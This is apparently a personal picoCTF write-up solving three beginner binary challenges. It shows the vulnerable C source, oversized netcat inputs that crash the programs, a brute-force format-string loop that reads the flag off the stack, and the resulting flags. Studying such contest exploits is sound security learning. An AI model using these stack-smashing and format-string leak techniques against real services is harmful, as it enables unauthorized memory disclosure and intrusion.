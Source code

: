 # buffer overflow 0
Challenge provides a source code from which it's immediately obvious that upon a `SIGSEGV` signal the flag is given out
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
...
```c
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```
Therefore, let's try to enter a REALLY big input in an attempt to stack smash.
```bash
(base) achu@air ~ % nc saturn.picoctf.net 62854 <<< $(printf "Get smashed lol %.0s" {1..69})
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
(base) achu@air ~ % 
```
And we get our flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}`.

# format string 0
Same as `buffer overflow 0`, the `SIGSEGV` signal yields a flag and we'll provide a massive input to smash the stack.
```bash
(base) achu@air ~ % nc mimas.picoctf.net 56388  <<< $(printf "x%.0s" {1..6969})
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
The flag is `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}`

# flag leak
In the source code, the unsafe function `scanf` is used
```c
scanf("%127s", story);
```
We can potentially exploit it and make it print values off the stack
```bash
(base) achu@air ~ % nc saturn.picoctf.net 62426
Tell me a story and then I'll tell you one >> %x  
Here's a story - 
ffebb4e0
(base) achu@air ~ % 
```
Automating this to run until we find a hit for string containing `CTF`
```bash
(base) achu@air ~ % i=0; while true; do output="$(echo "%${i}\$s" | nc saturn.picoctf.net 62426 2>/dev/null)"; if echo "$output" | grep -E CTF >/dev/null; then echo "Found at i=$i:"; echo "$output"; break; fi; i=$((i+1)); done

Found at i=24:
Tell me a story and then I'll tell you one >> Here's a story - 
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
(base) achu@air ~ % 
```
Reformat and our correct flag is `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`
